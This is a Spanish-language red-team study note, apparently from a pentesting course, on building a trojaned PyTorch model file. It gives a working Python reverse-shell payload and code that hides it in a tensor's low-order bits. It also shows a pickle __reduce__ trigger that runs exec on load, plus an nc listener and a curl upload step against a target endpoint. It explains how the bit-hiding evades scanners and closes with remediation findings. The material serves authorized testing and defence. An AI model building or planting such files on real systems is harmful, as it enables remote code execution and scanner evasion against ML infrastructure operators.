

---
tags:
  - IA/Red-Team
  - IA
  - Pentesting/Explotacion
  - Pentesting/Post-Explotacion
Descripción: "Las piezas están: pickle como vector de ejecución y los LSB de los tensores como medio de transporte"
Fecha de actualización: 2026-07-28
Nota previa: "[[12 - Esteganografía en tensores]]"
Nota siguiente: "[[14 - Detección y evasión en ataques a los datos]]"
Area: "[[Ataques a los datos.base|Ataques a los datos]]"
---
---

Las piezas están: [[11 - Pickle y la deserialización insegura de modelos|`pickle` como vector de ejecución]] y [[12 - Esteganografía en tensores|los LSB de los tensores como medio de transporte]]. Ahora se montan en un único fichero `.pth` que parece un modelo y es una shell.

> [!tip]+ Construirlo sin escribir el código
> [[01 - Uso ofensivo y defensivo de fickling|`fickling --inject`]] hace en un comando lo que esta nota desglosa en cincuenta líneas, preservando el objeto original. Merece la pena leer primero el detalle para entender qué construye, y usar `fickling` para ejecutarlo.

> [!important]+ Contexto de uso
> Este es el único punto del path donde se construye un artefacto ofensivo funcional. Aplica a **pentesting autorizado**: evaluar si la infraestructura de ML de un cliente carga modelos sin verificar procedencia ni integridad. El payload de reverse shell se sustituye por un canario inofensivo (una petición HTTP a un dominio propio) salvo que el alcance pida demostrar acceso interactivo.

# El payload

Un reverse shell en Python, con la IP y el puerto del listener embebidos:

```python
HOST_IP = "localhost"      # IP del listener, alcanzable DESDE el objetivo
LISTENER_PORT = 4444
```

```python
payload_code_string = f"""
import socket, subprocess, os, pty, sys, traceback
attacker_ip = '{HOST_IP}'; attacker_port = {LISTENER_PORT}
s = None
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.settimeout(5.0)
    s.connect((attacker_ip, attacker_port)); s.settimeout(None)
    os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2)
    shell = os.environ.get('SHELL', '/bin/bash')
    pty.spawn([shell])
except Exception as e:
    traceback.print_exc(file=sys.stderr)
finally:
    if s:
        try: s.close()
        except: pass
    os._exit(1)
"""
payload_bytes_to_hide = payload_code_string.encode("utf-8")
```

Es el reverse shell estándar de [[03 - Reverse shells|shells y payloads]] con dos detalles adaptados al contexto:

- **`pty.spawn`** en vez de redirigir a `/bin/sh` a secas, para obtener una TTY interactiva desde el principio.
- **`os._exit(1)`** al final, para que el proceso muera de forma limpia y no deje el servidor en un estado raro tras cerrar la sesión.

`HOST_IP` tiene que ser alcanzable **desde el entorno donde se cargará el modelo**, no desde donde se construye el fichero — es el error más habitual al reproducirlo.

# Incrustar el payload

```python
NUM_LSB = 2

loaded_state_dict = torch.load("victim_model_state.pth")

target_key = "large_layer.weight"           # capa grande como portadora
original_target_tensor = loaded_state_dict[target_key]

# Comprobación de capacidad
bytes_to_embed  = 4 + len(payload_bytes_to_hide)      # 4 = prefijo de longitud
bits_needed     = bytes_to_embed * 8
elements_needed = (bits_needed + NUM_LSB - 1) // NUM_LSB   # división entera hacia arriba

if original_target_tensor.numel() < elements_needed:
    raise ValueError(f"Target tensor '{target_key}' is too small for the payload!")

modified_target_tensor = encode_lsb(original_target_tensor, payload_bytes_to_hide, NUM_LSB)

modified_state_dict = loaded_state_dict.copy()
modified_state_dict[target_key] = modified_target_tensor
```

<mark style="background: #8000E1A6;">El modelo resultante **funciona exactamente igual**.</mark> Los pesos han cambiado en el octavo decimal; ninguna evaluación de precisión lo nota, y ninguna inspección de los tensores llama la atención.

# El disparador — `TrojanModelWrapper`

Aquí se une todo. Una clase cuyo `__reduce__` devuelve `(exec, (loader_code,))` en lugar de instrucciones de reconstrucción legítimas:

```python
class TrojanModelWrapper:
    def __init__(self, modified_state_dict, target_key, num_lsb):
        # pickle el state_dict completo y guarda los bytes internamente
        self.pickled_state = pickle.dumps(modified_state_dict)
        self.target_key = target_key
        self.num_lsb = num_lsb

    def __reduce__(self):
        loader_code = (
            # 1) reconstruir el state_dict desde los bytes embebidos
            # 2) sacar el tensor de self.target_key
            # 3) definir decode_lsb sobre la marcha
            # 4) extraer el payload de los LSB
            # 5) exec() del payload
            ...
        )
        return (exec, (loader_code,))
```

La cadena `loader_code` se construye al vuelo y contiene **todo lo necesario**: el `state_dict` serializado, la clave del tensor portador, el valor de `num_lsb` y el código fuente de `decode_lsb`. Cuando `exec` la ejecuta durante la deserialización, el código reconstruye el diccionario, localiza el tensor, extrae los bytes ocultos, los decodifica y los ejecuta.

<mark style="background: #FF5582A6;">Todo —datos, parámetros, función auxiliar y disparador— va plegado en una sola cadena contigua, así que el ataque viaja como **un único fichero autocontenido**.</mark> No hay dependencias externas, no hay descargas, no hay indicadores de red hasta que el payload se ejecuta.

# El artefacto final

```python
wrapper_instance = TrojanModelWrapper(
    modified_state_dict=modified_state_dict,
    target_key=target_key,
    num_lsb=NUM_LSB,
)

torch.save(wrapper_instance, "malicious_trojan_model.pth")
```

Lo que se guarda **no es un `state_dict`**: es la instancia serializada de `TrojanModelWrapper`. El fichero tiene extensión `.pth`, tamaño plausible y, si alguien lo carga con `weights_only=False`, ejecuta el payload antes de devolver nada.

# La entrega

```shell-session
$ nc -lvnp 4444
```

Con el listener escuchando, se sube el fichero al endpoint `/upload` de la aplicación objetivo, que lo carga con `torch.load()`:

```shell-session
$ curl -F "file=@malicious_trojan_model.pth" http://<TARGET>/upload
```

La conexión entra en el `nc`, y desde ahí es post-explotación normal: `cat /app/flag.txt` en el lab, enumeración del contenedor en un engagement real.

# La cadena completa



<mark style="background: #FFB86CA6;">La esteganografía no es imprescindible para la RCE: el `__reduce__` bastaría con el payload en claro.</mark> Lo que aporta es **evasión**: un `.pth` cuyo pickle contenga una cadena Python legible con `socket` y `/bin/bash` lo marca cualquier escáner. Con el payload repartido por los bits bajos de un tensor, lo que queda visible es la lógica del cargador — mucho menos característica.

# Qué se reporta

Tres hallazgos distintos, y conviene separarlos porque se arreglan de forma diferente:

| Hallazgo | Severidad típica | Corrección |
| - | - | - |
| **Deserialización insegura** (`torch.load` con `weights_only=False` sobre entrada no confiable) | **Crítica** — RCE no autenticada si el endpoint es público | `safetensors`, o `weights_only=True` con PyTorch ≥ 2.6 |
| **Ausencia de verificación de integridad** del artefacto | Alta | Firma y verificación de hash contra un registro aprobado |
| **Ausencia de escaneo** del modelo antes de cargar | Media | [[00 - Qué es ModelScan\|`ModelScan`]] / [[00 - Qué es picklescan\|`picklescan`]] en el pipeline |

Y la evidencia mínima que hay que adjuntar: el fichero construido (con payload inofensivo), la petición de subida, y la prueba de ejecución — la petición al canario o la salida de `id`. <mark style="background: #FFB8EBA6;">Con eso basta; no hace falta pivotar para acreditar el hallazgo</mark>, y hacerlo sin autorización expresa excede el alcance.
